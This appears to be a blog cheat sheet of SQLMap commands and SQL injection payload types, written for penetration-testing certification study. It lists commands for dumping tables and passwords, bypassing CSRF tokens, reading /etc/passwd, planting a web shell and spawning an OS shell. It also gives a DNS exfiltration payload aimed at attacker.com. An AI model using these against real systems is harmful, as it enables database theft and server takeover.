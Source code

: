 ```yaml
---
layout: post
title: "SQLMap Essentials"
date: 2025-04-22
categories: CheatSheets/CPTS
order: 14
---
```


| **Command**                                                  | **Description**                                             |
| ------------------------------------------------------------ | ----------------------------------------------------------- |
| `sqlmap -h`                                                  | View the basic help menu                                    |
| `sqlmap -hh`                                                 | View the advanced help menu                                 |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`   | Run `SQLMap` without asking for user input                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`  | `SQLMap` with POST request                                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'` | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt`                                          | Passing an HTTP request file to `SQLMap`                    |
| `sqlmap -r Case2.txt --threads 10 --dump -T flag2 --batch` | `-r Case2.txt`: read the raw HTTP request `POST /case2.php?id=1 HTTP/1.1` from **Case2.txt**; `--threads 10`: use 10 threads for faster scanning; `--dump -T flag2`: dump all data from table **flag2**; `--batch`: run non-interactive (use defaults for all prompts) |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'` | Specifying a cookie header                                  |
| `sqlmap -u www.target.com --data='id=1' --method PUT`        | Specifying a PUT request                                    |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt` | Store traffic to an output file                             |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch` | Specify verbosity level                                     |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"` | Specifying a prefix or suffix                               |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`             | Specifying the level and risk                               |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba` | Basic DB enumeration                                        |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb` | Table enumeration                                           |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname` | Table/row enumeration                                       |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"` | Conditional enumeration                                     |
| `sqlmap -u "http://www.example.com/?id=1" --schema`          | Database schema enumeration                                 |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`  | Searching for data                                          |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch` | Password enumeration and cracking                           |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass                                      |
| `sqlmap --list-tampers`                                      | List all tamper scripts                                     |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba` | Check for DBA privileges                                    |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"` | Reading a local file                                        |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"` | Writing a file                                              |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell`        | Spawning an OS shell                                        |

---

## Supported SQL Injection Types
*We see the types of SQL injections supported by SQLMap with the sqlmap -hh command*

**The technique characters BEUSTQ refers to the following:**

B: Boolean-based blind
E: Error-based
U: Union query-based
S: Stacked queries
T: Time-based blind
Q: Inline queries

| **Letter** | **Type**                   | **Description**                                                                                                                  | **Example**                                           |
|------------|----------------------------|----------------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------|
| B          | Boolean-based blind        | Differentiates TRUE/FALSE by comparing server responses (content, HTTP code, title, etc.), retrieving ~1 byte per request.       | `AND 1=1` vs. `AND 1=2`                               |
| E          | Error-based                | Leverages DBMS error messages to carry query results (“chunks” up to ~200 bytes).                                               | `AND GTID_SUBSET(@@version,0)`                        |
| U          | Union query-based          | Appends a `UNION SELECT` to combine original results with injected data, potentially dumping entire tables in one go.           | `UNION ALL SELECT 1,@@version,3`                      |
| S          | Stacked queries            | “Piggy-backs” multiple SQL statements (INSERT/UPDATE/DELETE/OS commands) if the platform allows it (e.g. MSSQL, PostgreSQL).    | `; DROP TABLE users`                                  |
| T          | Time-based blind           | Uses response delays (e.g. `SLEEP()`) to infer TRUE/FALSE when Boolean-blind isn’t possible (e.g. non-query contexts).           | `AND IF(2>1,SLEEP(5),0)`                              |
| Q          | Inline queries             | Embeds a sub-query within the original statement to return data inline; less common but supported if the app’s SQL allows it.    | `SELECT (SELECT @@version) FROM users`                |
| OOB        | Out-of-Band (DNS exfil)    | Forces the DBMS to make external DNS requests carrying query results (e.g. via `LOAD_FILE(CONCAT('\\\\',@@version,…))`).       | `LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\x'))` |

---